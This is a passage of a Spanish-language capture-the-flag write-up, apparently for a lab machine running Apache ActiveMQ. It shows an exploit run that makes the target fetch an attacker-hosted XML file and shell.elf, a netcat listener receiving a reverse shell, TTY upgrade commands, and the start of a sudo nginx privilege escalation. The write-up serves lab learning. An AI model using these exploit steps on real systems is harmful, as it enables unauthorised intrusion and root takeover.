 ```bash
$: sudo go run ./main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.102:8080/poc-linux.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.14.102:8080/poc-linux.xml

[*] Sending packet: 000000791f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e74657874
2e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010026687474703a2f2f31302e31302e
31342e3130323a383038302f706f632d6c696e75782e786d6c
 
$: sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.243 - - [03/Jan/2024 13:19:16] "GET /poc-linux.xml HTTP/1.1" 200 -
10.10.11.243 - - [03/Jan/2024 13:19:16] "GET /poc-linux.xml HTTP/1.1" 200 -
10.10.11.243 - - [03/Jan/2024 13:19:16] "GET /shell.elf HTTP/1.1" 200 -

$: sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.243] 37968
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
```

> Q. Que usaurio (daemon) es el que corre ActiveMQ?   
> A. activemq  

----------------------

# Escalada de privilegios con nginx

Hacemos un tratamiento de la tty con los comandos 

```bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ^Z
$: stty raw -echo; fg
reset xterm
activemq@broker:/opt/apache-activemq-5.15.15/bin$ stty rows 11 columns 119
activemq@broker:/opt/apache-activemq-5.15.15/bin$ export TERM=xterm
activemq@broker:/opt/apache-activemq-5.15.15/bin$ export SHELL=/bin/bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ls
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo -l
 Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty
 User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
Como podemos ejecutar nginx como root, la manera de escalar privilegios será crear un servidor con altos privilegios del que abusar (nos permite leer y escribir archivos como si fueramos root)
